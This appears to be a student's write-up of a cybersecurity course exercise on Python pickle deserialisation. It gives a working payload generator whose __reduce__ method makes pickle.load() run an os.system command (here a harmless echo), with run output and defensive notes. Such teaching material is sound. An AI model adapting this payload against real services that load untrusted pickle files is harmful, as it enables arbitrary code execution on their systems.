

# 🖥️ Quite a Pickle - Pickle Security Vulnerability

**Course:** Cyber Security Analyst - Technical Fundament Basics | **Date:** 30 June 2025

---

## Task

**Objective:** Demonstrate how `pickle.load()` can lead to arbitrary code execution.

---

## Solution

### Payload Generator Script (create_payload.py)

```python
import pickle
import os

class MaliciousPayload:
    """Class that executes code when pickle.load() is called."""
    
    def __reduce__(self):
        """
        __reduce__ is called during deserialisation.
        Returns a tuple: (callable, args)
        The callable is called with args.
        """
        return (os.system, ('echo "Hacked by a pickle"',))

# Create and save payload
payload = MaliciousPayload()

with open("payload.pkl", "wb") as f:
    pickle.dump(payload, f)

print("Malicious payload created: payload.pkl")
```

### Execution

```bash
$ python create_payload.py
Malicious payload created: payload.pkl

$ python vulnerable_script.py payload.pkl
Hacked by a pickle
```

---

## Explanation

| Component | Function |
|------------|----------|
| `__reduce__()` | Special method for serialisation |
| `os.system` | Executes shell commands |
| `pickle.load()` | Calls `__reduce__()` → Code execution |

### Process

1. `pickle.dump()` serialises the object including `__reduce__`
2. `pickle.load()` deserialises and calls `__reduce__()`
3. `__reduce__()` returns `(os.system, ('echo ...',))`
4. Pickle executes `os.system('echo "Hacked by a pickle"')`

---

## Evidence

Cybersteps shows the pickle payload submission as graded done. The relevant submitted payload section was:

```python
payload = EvilPickle()

with open("payload.pkl", "wb") as f:
    pickle.dump(payload, f)

print("\n=== EVIL PAYLOAD ===")
print("Malicious payload written to 'payload.pkl'")
print("Run: python vulnerable_script.py payload.pkl to observe the effect.")
```


---

## Notes

- **⚠️ DANGER:** Pickle can execute arbitrary code!
- **Rule:** Never load pickle files from unknown sources
- **Alternative:** JSON for secure data serialisation
- **`__reduce__()`:** Controls how an object is serialised/deserialised
- **Attack vectors:** File upload, man-in-the-middle, manipulated configurations


